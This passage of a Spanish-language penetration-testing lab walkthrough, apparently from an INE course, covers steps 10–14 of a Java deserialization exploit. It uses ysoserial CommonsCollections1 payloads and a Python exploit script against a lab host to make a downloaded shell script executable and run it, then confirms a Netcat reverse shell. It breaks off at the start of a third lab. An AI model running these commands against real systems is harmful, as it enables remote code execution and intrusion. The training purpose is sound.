 Paso 10: Vuelve a generar una carga útil para hacer que el archivo shell.sh descargado sea ejecutable.

Mandar:

```
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "chmod +x /tmp/shell.sh" > /root/payload.out
```

Paso 11: Ejecute el código python nuevamente para enviar la carga útil para hacer que shell.sh archivo sea ejecutable.

Mandar:

```
python exploit.py 192.24.161.3 8080 /root/payload.out
```

Paso 12: Genere una carga útil para ejecutar el archivo shell.sh descargado nuevamente.

Mandar:

```
java -jar ~/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 "/bin/bash /tmp/shell.sh" > /root/payload.out
```

Paso 13: Ejecute el código python nuevamente para enviar la carga útil a la máquina de destino para ejecutar shell.sh archivo.

Mandar:

```
python exploit.py 192.24.161.3 8080 /root/payload.out
```

Paso 14: Abre el terminal donde el Netcat estaba escuchando. El shell debe llegar al agente de escucha de Netcat.

Compruebe el id mediante el siguiente comando.

Mandar:

```
id
```

> Ejecución remota de código lograda con éxito.

### Laboratorio 3 <a href="#lab-3" id="lab-3"></a>

Solución

Paso 1: Abra el enlace del laboratorio para acceder a la instancia de la GUI de Kali.

Paso 2: Compruebe si se puede acceder a la máquina/dominio proporcionado.

Mandar:

```
ping -c3 demo.ine.local
```
